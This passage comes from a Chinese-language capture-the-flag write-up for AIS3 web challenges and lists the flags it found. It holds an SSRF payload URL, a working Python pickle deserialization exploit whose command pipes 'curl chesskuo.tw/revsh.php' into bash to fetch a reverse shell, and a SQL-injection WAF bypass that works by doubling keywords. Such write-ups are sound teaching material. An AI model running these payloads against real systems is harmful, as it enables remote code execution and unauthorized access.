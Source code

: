 - `AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}`

## 🦈Shark

去年的 [d1v1n6 d33p3r](https://blog.djosix.com/ais3-2019-pre-exam-%E5%AE%98%E6%96%B9%E8%A7%A3%E6%B3%95/#d1v1n6-d33p3r-web-16-solves)

payload : `https://shark.ais3.org/?path=http://172.22.0.2/flag`

- `AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}`

## 🐍Snake

主要是考 python 反序列化
測試發現是 python3

順便構造 inheritance chain 來 get shell
當然也是可以直接讀 flag 就好啦
但 get shell 比較帥

```python=
import pickle, base64

rce = """''.__class__.__mro__[1].__subclasses__()[81].__init__.__globals__['__builtins__']['eval']("__import__('os').system('curl chesskuo.tw/revsh.php|bash')")"""

class A(object):
	def __reduce__(self):
		return (eval, (rce,))

o = A()
print(base64.b64encode(pickle.dumps(o)))
```

- `AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}`

## 🦉Owl

直接猜帳號密碼 有很多組你拿字典撞應該一堆
我直接猜 `user:password` got it~

讀一下 source
發現洞洞是蠻基本的 WAF 繞過

![](https://i.imgur.com/iJjf5DS.png)

可以看到有兩次 `str_ireplace()`
那就把字重複幾遍讓他被過濾後又變成一個字
ex : `UNION` -> `UNIUNIONON`

接著就是基本的猜 union cols
發現為 `3`

接著枚舉 table schema 
[cheat sheets](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)
